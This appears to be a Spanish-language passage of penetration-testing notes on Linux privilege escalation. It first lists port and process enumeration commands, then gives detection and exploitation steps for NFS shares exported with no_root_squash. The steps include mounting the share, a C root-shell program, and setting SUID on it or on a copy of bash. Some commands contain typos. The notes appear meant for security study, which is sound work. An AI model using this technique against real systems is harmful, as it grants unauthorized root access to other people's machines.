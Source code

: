 **Instrucciones**

* netstat -punta
* Lsoft -P -i -n : Permite visualizar los puertos TCP y UDP en escucha así como las conexiones activas en el sistema
  * Lsoft lista los ficheros abiertos en el sistema. Otros comandos útiles: -p PID, -u Use, -c nombre\_proceso, +D directorio/path concreto
* iptables -L: Listar las reglas de iptables

#### Bala de plata II: NFS

Tal y como se ha comentado antes, NFS no esta "diseñado" para ser seguro per se. En determinadas condiciones, es posible explotar su mala configuración y ser root.

**Detección**

1. El servicio esta activo
2. Realizar cat/etc/exports
3. Comprobar que la opción no\_root\_squash esta presente \( y en que directorio\)
4. Analizar otras posibles opciones que pueden resultar un problema, como nosuid o nodev

**Explotacion**

1. Montar NFS
   1. showmount -e IP\_MAQUINA\_VICTIMA
   2. nmap –sV –script=nfs-showmount
   3. mkdir /tmp/1
   4. mount -o rw, vers=2 IP\_MAQUINA\_VICTIMA:/tmp/tmp/1
   5. mount -o rw,vers=2:
   6. Vers= version del NFS, puede cambiaR
2. Crear el siguiente fichero: \#define NULL 0 int main\(\){ setgid\(0\); setuid\(0\); execl\("/bin/sh","sh",NULL\); // system\("/bin/bash"\);return 0;}
3. Como root \(en el local host\) compilar y ejecutar el fichero en el directorio montado
   1. gcc /tmp/1/shell.c -o /tmp/1/shell
4. Fijar el suid en el ejecutable
   1. chmod +s /tm/1/shell
5. Ejecutar el fichero en el NFS server
   1. /tmp/shell
   2. id

**Resumen**

When **no\_root\_squash** appears in `/etc/exports`, the folder is shareable and a remote user can mount it.

1. remote check the name of the folder
2. showmount -e IP
3. create dir: mkdir /tmp/foo
4. mount directory: mount -t nfs IP:/shared /tmp/foo
5. cd /tmp/foo
6. copy wanted shell: cp /bin/bash
7. set suid permission: chmod +s bash

### Tercera fase: Enumeración de servicios y Cron
